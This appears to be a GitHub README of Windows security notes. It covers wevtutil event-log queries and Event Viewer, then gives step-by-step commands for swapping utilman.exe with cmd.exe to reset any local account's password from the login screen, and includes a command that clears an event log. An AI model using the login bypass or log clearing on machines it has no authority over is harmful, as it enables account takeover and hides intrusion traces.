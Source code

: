 # security
cool tricks to securing and some how a little forensics.

<ul>
<li>Wevtutil</li>
<li>Event Viewer</li>
<li>Bypass windows Login </li>
</ul>

# Wevtutil
Enables you to retrieve information about event logs and publishers in powershell,cmd, and also git bash.

<ul>
<li>To see last 50 login in our device:

    wevtutil qe Security /c:50 /rd:true /f:text
  
<p>you should be administrator to run this command</p>
</li>
<li>Find the last 20 startup events in the System log:

    wevtutil query-events System /count:20 /rd:true /format:text /q:"Event[System[(EventID=12)]]"

</li>
<li>Display the status of the Application log:

    wevtutil gli Application

</li>
<li>Clear all the events from the Application log:

    wevtutil clear-log Application
    
</li>
<li>...</li>
</ul>

# Event Viewer
Event Viewer is a component of Microsoft's Windows operating system that lets administrators and users view the event logs on a local or remote machine.just type

    eventvwr

# Recover windows without password
as you may know you can open accounts on any windows machine without any passwords by just a windwos bootable usb.when installation go repair this pc and open command prompt and type this command.

    move c:\windows\system32\utilman.exe c:\ 

<p>c is directory that windows is installed,and maybe it is different in your pc.and then this command:</p>

    copy c:\windows\system32\cmd.exe c:\windows\system32\utilman.exe


<p>after all:</p>


    wpeutil reboot

<p>after the reboot  click on ease of use,CMD will opens then type:</p>

    net user

<p>after you saw users then the user you want to login with:</p>

    net user <desired user> <your password>

<p> you are in windows now!</p>

